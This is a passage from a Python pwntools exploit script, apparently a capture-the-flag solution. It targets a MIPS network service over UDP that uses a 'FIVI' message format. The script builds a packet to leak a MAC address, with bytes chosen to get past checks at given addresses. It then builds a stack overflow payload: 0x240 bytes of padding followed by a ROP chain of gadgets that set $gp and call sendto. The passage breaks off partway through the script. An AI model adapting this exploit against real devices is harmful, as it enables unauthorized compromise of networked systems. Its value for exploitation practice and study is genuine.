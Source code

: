 ```
context.log_level = "debug"

io = remote(TARGET_IP, TARGET_PORT, typ="udp")

def leakMacAddress():
    # leak
    msgFromClient = b'FIVI'
    msgFromClient += b'1234'
    # mac
    # 52 54 00 12 34 56
    #msgFromClient += b'\x52\x54\x00\x12\x34\x56'
    msgFromClient += p8(10)
    msgFromClient += p8(1) # magic to bypass 1 check at 0x402684
    msgFromClient += p8(0) # bypass at 0x40268C
    msgFromClient += p8(4)
    msgFromClient += b'a'*0x4
    msgFromClient += b'8'
    msgFromClient += b'\xff'*6 # maybe fake mac address
    msgFromClient += p16(0) # v8
    msgFromClient += p32(0) # v17
    msgFromClient += b'x'*0x20
    io.sendline(msgFromClient)

def pwn():
    # 0x00400e40: addiu $sp, $sp, 0x20; lw $ra, 0x1c($sp); jr $ra; addiu $sp, $sp, 0x20;
    # .text:004020B0  move $a0, $s0;
    # .text:00400F3C
    # 0x00400d70: lw $t9, ($s0); addiu $s1, $s1, 1; move $a2, $s5; move $a1, $s4; jalr $t9; move $a0, $s3;
    # .text:00401220
    # 0x00400c9c : lw $gp, 0x10($sp) ; lw $ra, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x20
    # 00402ac0 : lw $gp, 0x10($sp) ; lw $ra, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x20

    # 0x41b030
    gp = b"\x00\x41\xb0\x30"


    # lw $gp, 0x10($sp) ; lw $ra, 0x1c($sp) ; jr $ra ; addiu $sp, $sp, 0x20
    gadget1 = b"\x00\x40\x2A\xC0"
    # call sendto
    gadget2 = b"\x00\x40\x1D\x7C"
    # addiu $sp, $sp, 0x20; lw $ra, 0x1c($sp); jr $ra; addiu $sp, $sp, 0x20;
    gadget3 = b"\x00\x40\x0e\x40"



    payload = b"A"*0x240+b"B"*0x4+b"C"*0x4+b"D"*0x4
    # 0x402ac0: set gp
    payload += gadget1
    payload += b"X"*0x10
    # $gp: 0x41b030
    payload += gp
    payload += b"X"*0x8
    payload += gadget3
    payload += b"X"*0x20
    payload += b"X"*0x1c
    payload += gadget3
    payload += b"X"*0x4
    payload += b"X"*0x20
    payload += b"X"*0x1c
    payload += gadget2

    msgFromClient = b'FIVI'
```